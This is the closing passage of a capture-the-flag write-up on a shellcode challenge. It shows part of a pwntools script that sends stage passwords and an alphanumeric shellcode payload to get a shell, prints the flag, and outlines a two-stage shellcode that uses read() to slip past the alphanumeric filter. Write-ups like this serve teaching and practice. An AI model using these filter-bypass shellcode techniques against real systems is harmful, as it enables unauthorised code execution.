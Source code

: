 ```python
    send_password(passwords[i])
    print(f"Stage {i+1} - passed")

payload  = b''
payload += asm('''
    /* same as before */
''')
for b in payload:
    assert(chr(b).isalnum())

payload += b'\x47'*60
io.send(payload + b'\n') # fgets

io.interactive()
io.close()
```

And by running the script, we pop a shell and get the flag!

`midnight{m0d3rn_cl0ud_sh3llc0de5}`

The full solution is in [solution.py](solution.py) script.

#### Alternative shellcode

Another idea is to use a 2-stage shellcode. The caller of the shellcode does not clear out the registers and the `mmap`-ed regions is still writable. So, our first-stage alphanumeric shellcode could invoke the `read()` syscall to overwrite itself with an unrestricted (non-alphanumeric) shellcode. The second stage can also be longer than 500 bytes because `mmap` allocates on page granularity, so this means at least 4096 bytes.

